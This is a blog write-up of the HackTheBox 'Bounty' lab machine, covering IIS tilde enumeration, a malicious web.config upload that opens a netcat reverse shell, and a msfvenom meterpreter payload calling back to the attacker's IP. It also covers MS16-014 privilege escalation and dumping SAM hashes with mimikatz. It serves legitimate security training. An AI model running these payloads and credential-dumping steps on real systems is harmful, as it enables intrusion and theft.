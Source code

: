 ```yaml
---
layout: single
title: "HTB - Bounty Writeup - 10.10.10.93"
date: 2020-07-27 08:49:23 +0100
categories: hackthebox
excerpt: My walkthrough of the HTB Windows Server 2008 R2 machine Bounty.
---
```


![htb](/images/hackthebox-writeups/bounty/htb.png)

# HackTheBox - Bounty - 10.10.10.93

Bounty is an easy rated Windows Server 2008 R2 machine on [hackthebox.eu](https://app.hackthebox.eu).

## Summary

Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches.

## Recon and Scanning

### NMAP Results

![](/images/hackthebox-writeups/bounty/nmap.png)

From the ports shown here I can see that this is a Windows Box running [IIS 7.5](https://docs.bmc.com/docs/display/Configipedia/Microsoft+Internet+Information+Services), meaning that we are dealing with a Windows Server 2008 R2 box.

### IIS Enumeration

As IIS is the only port open we should start there, also, as this is a very outdated version of IIS we can assume that it may be vulnerable to a [this](http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), which is a flaw that may lead to an unauthorized information disclosure. The issue is triggered during the parsing of a request that contains a tilde character (~). This may allow a remote attacker to gain access to file and folder name information. We can use [this](https://github.com/irsdl/IIS-ShortName-Scanner) script to figure out if it is vulnerable and to find any hidden file or directories.

The syntax of the command to find out if the IIS version in question is vulnerable is:
{% highlight bash %}
java -jar iis_shortname_scanner.jar http://10.10.10.93
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/iis_vulnerable.png)

Now that we know the IIS server is vulnerable we can run the following command to enumerate hidden files and directories:
{% highlight bash %}
java -jar iis_shortname_scanner.jar 2 20 http://10.10.10.93
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/iis_files.png)

### Custom Wordlist and GoBuster

Bingo! We have identified two files or directories starting with `tranf` and `upload`, therefore we can grep a directory list for the phrases and create a custom wordlist to use with gobuster.
![](/images/hackthebox-writeups/bounty/wordlist.png)

Now that we have a custom wordlist called `words` we can run gobuster, we also know that as this is an IIS Server we should also fuzz for files with a `.aspx` extension.

{% highlight bash %}
gobuster dir -u http://10.10.10.93 -w words -x aspx
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/gobuster.png)

Nice, we have identified an `uploadedfiles` directory and the `transfer.aspx` page.

## Getting a Shell with a web.config file

Now that we know there is a page where we can upload files, we can attempt to get a shell using an IIS webshell.

![](/images/hackthebox-writeups/bounty/transfer-aspx.png)

We can also guess that as this is an outdated IIS server we can probably use a web.config payload to get a shell. As the web.config file is not in an aspx format, rather in XML, it is much harder to block by AV. As the `web.config` file is similar to Apache's `.htaccess` file, it stores important settings, this means we can inject malicious code into the file and get execution. This [article](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) explains it very well.

### Creating a Malicious File

Firstly we will need to copy a malicious web.config file from [here](https://gist.github.com/003random/e646a2c3ef47f560f17e1dee0443f685#file-web-config), then we will need to insert code to run a nc reverse shell.

![](/images/hackthebox-writeups/bounty/we-config-file.png)

We will also need to start an smb server to run nc remotely. This can be done using the Impacket `smbserver.py` script.

{% highlight bash %}
smbserver.py shared /usr/share/windows-binaries
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/smbserver.png)

### Popping a Shell

Now we can head over to `transfer.aspx` page and upload our malicious `web.config` file, whilst also starting an nc listener. Then we can go to `http://10.10.10.93/uploadedfiles/web.config`

![](/images/hackthebox-writeups/bounty/uploaded-files.png)

![](/images/hackthebox-writeups/bounty/shell-1.png)

Bingo! We got a shell!

## Upgrading to a Meterpreter Session

Now that we have a shell, we can generate a meterpreter payload and upgrade to a meterpreter session. Firstly, we need to generate a meterpreter payload and host it on out SMB server.

### Generating a Meterpreter EXE Payload

{% highlight powershell %}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9002 -f exe > msf.exe
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/msf-2.png)

Now that we have a payload, let's setup a listener in Metasploit.

![](/images/hackthebox-writeups/bounty/msf-1.png)

{% highlight powershell %}
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
setg LHOST 10.10.14.15
set LPORT 9002
run
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/msf-listner.png)

### Getting a Meterpreter Session

Now that the listener and payload are ready, we can run it from our smb share.

{% highlight powershell %}
\\10.10.14.15\shared\msf.exe
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/meterpreter-1.png)

Bingo! Now that we have a meterpreter session we can attempt to privesc.

## Privilege Escalation to SYSTEM

As this is a stock `Windows Server 2008 R2` machine we should run the local exploit suggester module within metasploit.

### Post Local Exploit Suggester

{% highlight powershell %}
background
use post/multi/recon/local_exploit_suggester
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/local-exploit.png)

`exploit/windows/local/ms16_014_wmi_recv_notif` looks promising so let's try this

### MS16_014_wmi_recv_notif

Let's load up this module as set the following options:

- LHOST - 10.10.14.15
- LPORT - 4444
- SESSION - 1

![](/images/hackthebox-writeups/bounty/priv-esc-1.png)

{% highlight powershell %}
run
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/shell-system.png)

Bingo, we got a shell as SYSTEM!

## User and Root Flags

Now that we have a shell as system, we can grab both the user and root flags

![](/images/hackthebox-writeups/bounty/flags.png)

## Beyond Root

Now that we have rooted the machine we can load mimikatz and dump the SAM hashes

{% highlight powershell %}
load mimikatz
mimikatz_command -f samdump::hashes
{% endhighlight %}

![](/images/hackthebox-writeups/bounty/hashdump.png)

## Pwned

![pwned](/images/hackthebox-writeups/bounty/pwned.png)

## Respect

If you enjoyed the write up or found it useful consider + repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
